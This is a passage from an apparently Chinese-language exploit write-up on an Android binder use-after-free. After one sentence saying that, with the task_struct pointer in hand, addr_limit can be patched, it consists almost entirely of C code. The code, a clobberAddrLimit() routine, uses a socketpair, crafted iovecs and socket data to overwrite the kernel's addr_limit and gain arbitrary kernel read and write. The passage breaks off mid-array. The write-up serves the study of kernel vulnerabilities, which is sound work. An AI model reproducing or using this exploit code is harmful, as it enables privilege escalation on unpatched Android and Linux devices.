 ![img](https://my-md-1253484710.file.myqcloud.com/20200629014014.png)

既然已经有task_struct指针，接下来就可以patch 掉AddrLimit。直接看exp实现。

```c
void BinderUaF::clobberAddrLimit() {
    int sock_fd[2] = {0};
    ssize_t nBytesWritten = 0;
    struct msghdr message = {nullptr};
    struct iovec iovecStack[IOVEC_COUNT] = {nullptr};
    // Get binder fd
    setupBinder();
    // Create event poll
    setupEventPoll();
    INFO("[+] Setting up socket\n");
    if (socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fd) == -1) {
        ERR("\t[-] Unable to create socketpair\n");
        exit(EXIT_FAILURE);
    } else {
        INFO("\t[*] Socketpair created successfully\n");
    }
    //
    // We will just write junk data to socket so that when recvmsg
    // is called it process the fist valid iovec with this junk data
    // and then blocks and waits for the rest of the data to be received
    //
    static char junkSocketData[] = {
            0x41
    };
    INFO("[+] Writing junk data to socket\n");
    nBytesWritten = write(sock_fd[1], &junkSocketData, sizeof(junkSocketData));
    if (nBytesWritten != sizeof(junkSocketData)) {
        ERR("\t[-] write failed. nBytesWritten: 0x%lx, expected: 0x%lx\n", nBytesWritten, sizeof(junkSocketData));
        exit(EXIT_FAILURE);
    }
    //
    // Write junk data to the socket so that when recvmsg is
    // called, it process the first valid iovec with this junk
    // data and then blocks for the rest of the incoming socket data
    //
    INFO("[+] Setting up iovecs\n");
    // We want to block after processing the iovec at IOVEC_WQ_INDEX,
    // because then, we can trigger the unlink operation and get the
    // next iovecs corrupted to gain scoped write.
    mmap4gbAlignedPage();
    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 + 0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *) 0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
    //
    // Prepare the data buffer that will be written to socket
    // Setting addr_limit to 0xFFFFFFFFFFFFFFFF in arm64
    // will result in crash because of a check in do_page_fault
    // However, x86_64 does not have this check. But it's better
    // to set it to 0xFFFFFFFFFFFFFFFE so that this same code can
    // be used in arm64 as well.
    //
    static uint64_t finalSocketData[] = {
            0x1,                    // iovecStack[IOVEC_WQ_INDEX].iov_len
            0x41414141,             // iovecStack[IOVEC_WQ_INDEX + 1].iov_base
            0x8 + 0x8 + 0x8 + 0x8,  // iovecStack[IOVEC_WQ_INDEX + 1].iov_len
```